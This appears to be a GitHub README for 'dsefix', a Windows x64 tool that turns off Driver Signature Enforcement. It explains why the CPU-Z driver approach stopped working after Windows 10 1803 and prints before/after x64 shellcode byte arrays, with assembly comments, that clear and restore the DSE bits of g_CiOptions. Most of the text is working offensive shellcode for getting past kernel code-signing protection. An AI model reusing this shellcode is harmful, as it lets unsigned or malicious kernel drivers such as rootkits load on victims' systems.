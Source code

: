 # dsefix  
Windows x64 Driver Signature Enforcement Overrider  

CPU-Z driver does not work from windows 10 1803. Since MmMapIoSpace does not allow to map page table, Application with CPU-Z driver can not translate virtual address to physical address anymore.

In my windows 10 1903, g_CiOptions value is not 0x6 but 0x2006.  
I changed shellcode using bit operation so no more bsod when DSE re-enabled.  

before  
```
/*
**  Disable DSE (Vista and above)
**  xor rax, rax
**  ret
*/
const unsigned char scDisable[] = {
    0x48, 0x31, 0xc0, 0xc3
};

/*
**  Enable DSE (W8 and above)
**  xor rax, rax
**  mov al, 6
**  ret
*/
const unsigned char scEnable8Plus[] = {
    0x48, 0x31, 0xc0, 0xb0, 0x06, 0xc3
};
```
after
```
/*
**  Disable DSE (W7 also has ci.dll)
**  mov eax,[g_CiAddress]
**  and al,~6
**  ret
*/
unsigned char scDisable[] = {
	0xA1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x24, 0xF9, 0xC3
};

/*
**  Enable DSE
**  mov eax,[g_CiAddress]
**  or al,6
**  ret
*/
unsigned char scEnable[] = {
	0xA1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0C, 0x06, 0xC3
};
```
